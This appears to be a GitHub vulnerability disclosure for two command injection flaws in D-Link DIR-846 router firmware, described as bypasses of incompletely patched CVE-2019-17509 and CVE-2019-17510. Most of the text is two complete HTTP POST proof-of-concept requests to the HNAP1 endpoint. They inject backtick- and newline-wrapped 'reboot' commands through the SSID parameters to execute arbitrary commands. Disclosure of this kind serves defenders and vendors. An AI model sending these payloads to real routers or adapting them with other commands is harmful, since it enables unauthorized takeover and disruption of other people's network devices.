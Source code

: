 # DIR-846_Command_Injection

#### Impact equipment

D-LINK DIR-846 (Rev A) ALL

#### Firmware

DIR846A1_FW100A43 link http://support.dlink.com.cn:9000/ProductInfo.aspx?m=DIR-846

DIR846enFW100A53DLA-Retail.bin link https://la.dlink.com/la/ftp_download.php?arch=DIR-846/DIR846enFW100A53DLA-Retail.bin

## Vulnerability1

#### Describe

​	The latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  has a command injection vulnerability in HNAP1/control/SetMasterWLanSettings.php. Attackers can use this vulnerability to use "\n" or backticks to bypass the shell metacharacters in the ssid0 or ssid1 parameters to execute arbitrary commands.

#### Detail

​	This vulnerability is due to the fact that **CVE-2019-17509** is not fully patched and can be bypassed by using line breaks or backticks on its basis.

<img src="./img/image-20211226102113922.png" alt="image-20211226102113922" style="zoom:50%;" />

#### POC

 ```
 POST /HNAP1/ HTTP/1.1
 Host: 192.168.0.1
 User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
 Accept: application/json
 Accept-Language: en-US,en;q=0.5
 Accept-Encoding: gzip, deflate
 Content-Type: application/json
 SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
 HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
 Content-Length: 284
 Origin: http://192.168.0.1
 Connection: close
 Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
 Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2
 
 {"SetMasterWLanSettings":{"wl(0).(0)_enable":"1","wl(0).(0)_ssid":"`reboot`","wl(0).(0)_preshared_key":"aXJrZXJPZ2dNVEl6TkRVMk56Zz0=","wl(0).(0)_crypto":"aestkip","wl(1).(0)_enable":"1","wl(1).(0)_ssid":"\nreboot\n","wl(1).(0)_preshared_key":"aXJrZXJPZ2c=","wl(1).(0)_crypto":"none"}}
 ```

#### TEXT

​	The following data packets will cause the router to restart	<img src="./img/image-20211226102955168.png" alt="image-20211226102955168" style="zoom:50%;" />

## Vulnerability2
#### Describe

​	HNAP1/control/SetWizardConfig.php in the latest version of D-Link Router DIR-846 DIR846A1_FW100A43.bin && DIR846enFW100A53DLA-Retail.bin  represents an injection vulnerability. Attackers can use this vulnerability to use "\n" or backticks in the shell metacharacters in the ssid0 or ssid1 parameters to cause arbitrary command execution.

#### Detail

​	Since the CVE-2019-17510 vulnerability has not been patched and perfected /squashfs-root/www/HNAP1/control/ SetWizardConfig.php, you can also use \n and single quotes to bypass

<img src="./img/image-20211226104615847.png" alt="image-20211226104615847" style="zoom:50%;" />

#### POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: AB26D09C30FC07AF9FA05EF59B3B2558 1640421298429
Content-Length: 76
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/Diagnosis.html?t=1640421281425
Cookie: uid=fN5PwZCT; PrivateKey=B2488589E39C47E4F8349060E88008DE; PHPSESSID=6209b08bddf630e68695800cd08e4203; sys_domain=dlinkrouter.com; timeout=2

{"SetWizardConfig":{"wl(1).(0)_ssid":"`reboot`","wl(0).(0)_ssid":"aa\nreboot\n"}}
```



#### TEXT

<img src="./img/image-20211226105603738.png" alt="image-20211226105603738" style="zoom:50%;" />
